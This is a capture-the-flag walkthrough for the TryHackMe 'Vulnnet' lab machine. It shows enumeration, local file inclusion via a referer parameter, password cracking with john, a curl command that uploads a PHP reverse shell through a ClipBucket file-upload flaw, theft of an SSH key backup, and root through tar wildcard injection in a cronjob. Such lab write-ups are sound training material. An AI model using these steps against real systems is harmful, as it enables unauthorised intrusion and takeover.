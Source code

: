 ```yaml
---
title: "Vulnnet | TryHackMe"
collection: publications
permalink: /publication/Vulnnet
excerpt: 'This is a free machine from TryHackMe'
date: 2023-04-07
venue: '04-27'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/vulnnet.png)

**Link :** [Vulnnet](https://tryhackme.com/room/vulnnet1)

---

## Enumeration : 

* You will have to add the machine IP with domain vulnnet.thm to your */etc/hosts* file.

* Let's scan the target :

```bash
# nmap -sC -sV -T4 -Pn 10.10.15.220
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-07 05:59 EST
Nmap scan report for vulnnet.thm (10.10.249.21)
Host is up (0.098s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ea:c9:e8:67:76:0a:3f:97:09:a7:d7:a6:63:ad:c1:2c (RSA)
|   256 0f:c8:f6:d3:8e:4c:ea:67:47:68:84:dc:1c:2b:2e:34 (ECDSA)
|_  256 05:53:99:fc:98:10:b5:c3:68:00:6c:29:41:da:a5:c9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: VulnNet
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

=> The scan reveals 2 open ports.

* Let's navigate to http://vulnnet.thm/

![vulnnet2](/images/vulnnet2.png)

* Inspecting the source code of the main page, we see 2 Javascripts file in /js directory.

![vulnnet3](/images/vulnnet3.png)

![vulnnet4](/images/vulnnet4.png)

* The first file reveals a subdomain, let's add it to */etc/hosts*

![vulnnet5](/images/vulnnet5.png)

* The second file reveals that the index.php page accepts a referer parameter.

![vulnnet6](/images/vulnnet6.png)

* Navigating to http://broadcast.vulnnet.thm prompts us with an authentication login screen, but since we don't any credentials we can do nothing with it.

* Let's check if the referer parameter is vulnerable to Local File Inclusion (LFI)

![vulnnet7](/images/vulnnet7.png)

* As you can see, we are able to read the content of /etc/passwd

* From the scan, we know that we're dealing with apache web server, by default the web config file is in /etc/apache2/sites-enabled/000-default.conf

> https://devm.io/open-source/apache2-install-config-169923

![vulnnet8](/images/vulnnet8.png)

* Bingo, we found the location of the .htpasswd that contains the credentials for http://broadcast.vulnnet.thm

![vulnnet9](/images/vulnnet9.png)

* We found the credentials, but we have to crack the password.


```bash
# john pass.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
9972761*******   (developers)     
1g 0:00:00:28 DONE (2023-04-07 11:09) 0.03498g/s 75617p/s 75617c/s 75617C/s 9982..99686420
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

* After you navigate to http://broadcast.vulnnet.thm and enter the credentials, you should see this page.

![vulnnet10](/images/vulnnet10.png)

* As you can see the broadcast subdomain is running *ClipBucket* which is an open source video sharing.

* Let's search if there are any known exploits:

![vulnnet11](/images/vulnnet11.png)

* So the exploit is an unauthenticated file upload, so we can upload a reverse shell.

* The payload should be something like this :

```bash
# curl -F "file=@shell.php" -F "plupload=1" -F "name=shell.php" http://broadcast.vulnnet.thm/actions/photo_uploader.php -u developers:9972761*******
```

> shell.php: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

* The output reveals the file directory.

* Start your netcat listener and navigate to http://broadcast.vulnnet.thm/files/photos/your_directory

![vulnnet12](/images/vulnnet12.png)

* After you open the file in your browser, you will receive a connection.

![vulnnet13](/images/vulnnet13.png)

## Horizontal Privilege Escalation :

* If you check the */var/backups* directory you will find a file called ssh-backup.tar.gz

![vulnnet14](/images/vulnnet14.png)

* Open a python web server :

```bash
python -m http.server
```

* Download the file to your local machine:

```bash
wget http://X.X.X.X:8000/ssh-backup.tar.gz
```

* Uncompress the archive :

```bash
tar -xf ssh-backup.tar.gz
```

* Now we have the private key but we don't have a username, so let's check the home directory

![vulnnet17](/images/vulnnet17.png)

* We still have a problem because the ssh privte key is protected with a passphrase

![vulnnet15](/images/vulnnet15.png)

* Use ssh2john tool and try to brute force the passphrase with john

![vulnnet16](/images/vulnnet16.png)

* Now we can login using ssh.

![vulnnet18](/images/vulnnet18.png)


## Vertical Privilege Escalation :

* You will find a cronjob run by root every two minutes

![vulnnet19](/images/vulnnet19.png)

* Let's read the *backupsrv.sh*

![vulnnet20](/images/vulnnet20.png)

* As you can see the script is backing up all the files in the Documents folder using tar, the is a wildcard vulnerability.

>https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c

* The exploit :

![vulnnet21](/images/vulnnet21.png)

* Start a netcat listener and wait 2 minutes to get the root shell

![vulnnet22](/images/vulnnet22.png)





